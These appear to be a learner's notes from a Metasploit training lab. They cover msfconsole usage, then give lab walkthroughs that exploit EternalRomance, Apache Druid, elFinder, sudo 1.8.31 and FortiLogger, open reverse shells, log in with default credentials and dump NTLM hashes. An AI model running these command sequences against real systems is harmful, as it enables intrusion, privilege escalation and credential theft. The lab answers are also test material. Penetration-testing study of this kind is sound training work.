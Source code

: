 # Using Metasploit Framework

## Metasploit Project

a) Metasploit Framework -> Free, open-source, community driven

b) Metasploit PRO -> Paid, Commercial use, enterprise oriented

### Architecture

Modules (/usr/share/metasploit-framework/modules)

Plugins (/usr/share/metasploit-framework/plugins/)

Scripts (/usr/share/metasploit-framework/scripts/)

Tools (/usr/share/metasploit-framework/tools/)



### Intro to msfconsole (free)

Launching -> `msfconsole` or `msfconsole -q` (without banner)

Modules -> prepared scripts to exploits

* Syntax -> \<type>/\<os>/\<service>/\<name>&#x20;
  * exploit/windows/ftp/scriptftp\_list
* Search -> `help search` f.e.: `search eternalromance`
* Specific search -> `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
* `Module selection -> nmap -sV <IP> ->` ![](<.gitbook/assets/image (17).png>)
  * `search ms17_010 -> use 0 -> options -> info`
    * `set RHOSTS <IP>... run`

#### Example of usage

`nmap -sVC 10.129.2.141`

`msfconsole -q`

`search eternalromance`

`options`

`set RHOSTS 10.129.2.141`

`set LHOST 10.10.14.153`

`run`

find flag.txt

### Payloads

refers to a module that aids the exploit in returning a shell to the attacker

* exploit -> finds the vuln service
* payload -> establishes a foothold

#### Example of usage

`nmap -sVC 10.129.152.95`

`msfconsole -q`

`search Apache druid`

`use 0`

`options`

`set LHOST 10.10.14.153`

`set RHOSTS 10.129.152.95`

`run`

find flag.txt



## MSF Sessions



### Sessions & Jobs usage

The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`nmap -sVC 10.129.79.219`

elFinder



Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`msfconsole -q`

`search elfinder`

`use 3`

`set LHOST, RHOSTS`

`run`

`shell`

`whoami` -> www-data



The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`shell`

`sudo -V` -> version 1.8.31

msf -> `sessions`

msf -> `search sudo 1.8.31`

`use 0`

`set LHOST, SESSION`

`run`

`cd root`

`cat flag.txt`

{% embed url="https://www.youtube.com/watch?v=we0cYx37lMo" %}

### Meterpreter

* meterpreter payload is a specific type of multi-faceted extensible payload that uses DLL injection to establish connection
* difficult to detect using simple checks, can be configured to be persistent across reboots or system changes...
* resides entirely in the memory of the remote host...leaves no traces on HDD
* "swiss army knife of pentesting"



#### Questions

Given IP: `10.129.203.65`

1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`sudo service postgresql status`

`sudo systemctl start postgresql`

`sudo msfdb init`

`sudo msfdb status`

`sudo msfdb run`

msf -> `db_nmap -sV -p- -T5 -A 10.129.203.65`

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

msf -> `hosts`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

msf -> `services`

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

5000 -> HTTP -> go to website 10.129.203.65:5000

* it is running FORTILOGGER
* tried credentials admin:admin -> worked

msf -> `search FortiLogger`

msf -> `use 0`

msf -> `set LHOST tun0`

msf -> `set RHOSTS 10.129.203.65`

msf -> `run`

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

`shell`

`whoami`

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

ANSWER: **`nt authority\system`**

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

msf -> `exit`

msf -> `run post/windows/gather/hashdump`

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
